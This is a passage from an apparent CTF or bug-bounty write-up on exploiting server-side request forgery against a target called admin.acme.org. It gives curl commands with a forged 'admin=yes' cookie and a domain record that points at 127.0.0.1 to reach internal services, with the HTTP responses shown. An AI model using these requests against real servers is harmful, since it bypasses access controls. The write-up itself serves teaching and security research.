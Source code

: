 ```
HTTP/1.1 200 OK
Date: Tue, 14 Nov 2017 17:13:13 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 11
Content-Type: text/html; charset=UTF-8

{"data":""}
```

Further iterations of this request-response sequence led me to conclude that the `id` value incremented after every valid POST to `index.php` &mdash; with the URL initialised within a `read.php` function, behind the scenes.

## 🛂 Part three: forging internal requests

It eventually became apparent that [server-side request forgery](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF) (SSRF) might be the key to unlocking a `data` JSON response, [described](https://cwe.mitre.org/data/definitions/918.html) by MITRE as follows:

> By providing URLs to unexpected hosts or ports, attackers can make it appear that the server is sending the request, possibly bypassing access controls such as firewalls that prevent the attackers from accessing the URLs directly.

As part of my preliminary investigation into potential SSRF vectors, I spun up a new domain (`appsec-testdomain.com`) and mapped the nameservers to CloudFlare for DNS handling. After propagation had completed, I configured a new `A` record, mapping `127.0.0.1` to `212.com.appsec-testdomain.com` without proxying through CloudFlare's servers:

![CloudFlare record assignment](https://user-images.githubusercontent.com/4115778/32795568-0234c1e6-c964-11e7-8c5f-c5ac4214ba77.png)

The next request-response sequence returned a `data` value full of Base64-encoded text.

```
$ curl -i -s -k -X $'POST' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' --data-binary $'{\"domain\":\"212.com.appsec-testdomain.com\"}' 'http://admin.acme.org/index.php'
```

```
HTTP/1.1 200 OK
Date: Tue, 14 Nov 2017 17:23:29 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 27
Content-Type: text/html; charset=UTF-8

{"next":"\/read.php?id=91"}
```

Decoding this text identified the contents as Apache's default web server page:

```
$ curl -i -s -k -X $'GET' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:56.0) Gecko/20100101 Firefox/56.0' -H $'Content-Type: application/json' -H $'Accept-Charset: iso-8859-1' -H $'Upgrade-Insecure-Requests: 1' -b $'admin=yes' 'http://admin.acme.org/read.php?id=91'
```
